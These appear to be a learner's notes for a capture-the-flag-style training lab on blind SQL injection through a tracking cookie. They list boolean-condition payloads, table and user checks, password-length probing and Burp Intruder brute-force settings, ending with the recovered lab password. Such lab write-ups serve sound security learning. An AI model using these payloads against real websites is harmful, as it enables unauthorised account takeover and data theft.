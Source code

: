 Lab: Blind SQL injection with conditional responses


Goal: log in as the administrator user.

Analytic:
cookies: TrackingId

1) Confirm that the parameter is vulnerable to blind SQL
select tracking-id from tracking-table where trackingId= '9e1ncKhaS9Uhpz7n

-> If this tracking id exists -> query returns value -> Welcome back message
-> If the tracking id doesn't exist -> query returns notthing -> no Welcome back
message

select tracking-id from tracking-table where trackingId = '9e1ncKhaS9Uhpz7n and 1=1--'
TRUE -> Welcome back

select tracking-id from tracking-table where trackingId = '9e1ncKhaS9Uhpz7n and 1=0 --'
FALSE -> no Welcome back.

2) Confirm that we have a users table
select tracking-id from tracking-table where trackingId = '9e1ncKhaS9Uhpz7n'
and (select 'x' from users LIMIT 1)='x
--> users table exists in the database.

3) Confirm that username administrator exists in users table
select tracking-id from tracking-table where trackinngId = '9e1ncKhaS9Uhpz7n
and (select username from users where username='administrator')='administrator
administrator user exists

4) Check the length of the password
9e1ncKhaS9Uhpz7n'AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) >10)='a -> TRUE

9e1ncKhaS9Uhpz7n'AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) =20)='a -> TRUE

Password has 20 characters

Use Intruder
Attack type: Sniper
Payloads
- Type: number
- Sequential. 0 to 30
Notice that payload 20 has different length -> check that has Welcome back!


5) Enumerate the password of the administrator user
select tracking-id from tracking-table where trackingid = '9e1ncKhaS9Uhpz7n
'AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

Attack type: Sniper
Brute Force
Character set: abcdefghijklmnopqrstuvwxyz0123456789
First character is 'd'
--> 20 times. Too long

Attack type: Cluster Bomb
- Payload set 1, number, 1 to 20
- Payload set 2, brute forcer, min1, max1

password: li3xqrtq3398z559k9po

